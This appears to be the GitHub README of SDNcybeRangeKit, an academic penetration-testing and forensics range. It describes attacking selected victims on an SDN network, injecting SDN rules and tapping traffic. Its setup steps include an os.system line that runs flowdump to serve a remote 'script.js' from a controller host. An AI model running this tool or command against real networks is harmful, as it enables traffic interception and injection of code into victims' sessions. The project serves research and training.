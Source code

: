 # SDNcybeRangeKit

A penetration testing and digital forensics environment 

**Warning: this [PRIVATE] project is for academic/research purposes only.**

A blog post about this project can be read here: http://www.ivanletteri.it/SDNcrKit

![SDNcyberRangeKit](https://www.ivanletteri.it/SDNcrKit/master/sdncrkit-logo-small.png "SDNcybeRangeKit")

## Concept
- Performs a SDN scenario attacks to all selected victims
- Injects SDN rules 
- Tapping the network
- All the devices victims connected to the Lan network, will be monitored for the SDNcybeRangeMonitor


## Use
- install.sh
```
bash install.sh
```
- edit hosts.txt with one IP per line
- edit controller.py, line 30, with the RyuControlleMiner httpserver IP:
```py
os.system("~/.local/bin/flowdump -s 'dump.py http://10.0.2.20:5600/script.js' -T")
```
- execute sdn-cyberange-kit.py
```
python3 sdn-cyberange-kit.py ipgateway
```

![network](https://www.ivanletteri.it/SDNcrKit/master/SDNcybeRangeKit-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/IvanLetteri/SDNcybeRangeKit/blob/master/virtualbox_scenario_instructions.md



![demo](https://www.ivanletteri.it/SDNcrKit/master/SDNcybeRangeKit-demo-cutted.gif "demo")
